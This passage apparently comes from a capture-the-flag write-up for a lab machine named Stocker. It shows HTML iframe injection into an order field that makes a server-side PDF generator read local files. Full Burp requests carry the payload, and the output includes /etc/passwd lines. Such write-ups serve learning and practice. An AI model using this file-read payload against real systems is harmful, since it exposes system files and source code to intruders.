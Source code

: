 We can use the orderID to open [http://dev.stocker.htb/api/po/63c59bab9a4ca468a539a9f4](http://dev.stocker.htb/api/po/63c59bab9a4ca468a539a9f4) which will render the PDF and includes our /etc/passwd content.  

**Finding**

```bash
mongodb:x:113:65534::/home/mongodb:/usr/sbin/nologin
angoose:x:1001:1001:,,,:/home/angoose:/bin/bash
```

### Read /var/www/dev/index.js

**Burp: Request**

```http
POST /api/order HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://dev.stocker.htb/stock
Content-Type: application/json
Origin: http://dev.stocker.htb
Content-Length: 230
Connection: close
Cookie: connect.sid=s%3AglWx1W4l6AXfs4gYZq-X2EzGPvkRAknn.aTADasosaVSVpIrCRQR6U5P%2BRe8JeRJwk6aNyTMXe1Q
token: ddac62a28254561001277727cb397baf

{"basket":[{"_id":"638f116eeb060210cbd83a8d","title":"<iframe src=file:///var/www/dev/index.js height=800 width=800></iframe>","description":"It's a red cup.","image":"red-cup.jpg","price":32,"currentStock":4,"__v":0,"amount":1}]}
```

**Burp: Response**

```http
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Mon, 16 Jan 2023 19:03:21 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 53
Connection: close
X-Powered-By: Express
ETag: W/"35-NMz42TN4UGeyAe4eb9g9f6gSMfk"

{"success":true,"orderId":"63c59f799a4ca468a539aa26"}
```

We can use the orderID to open [http://dev.stocker.htb/api/po/63c59f799a4ca468a539aa26](http://dev.stocker.htb/api/po/63c59f799a4ca468a539aa26) which will render the PDF and includes the source code of /var/www/dev/index.js.  

**Finding**
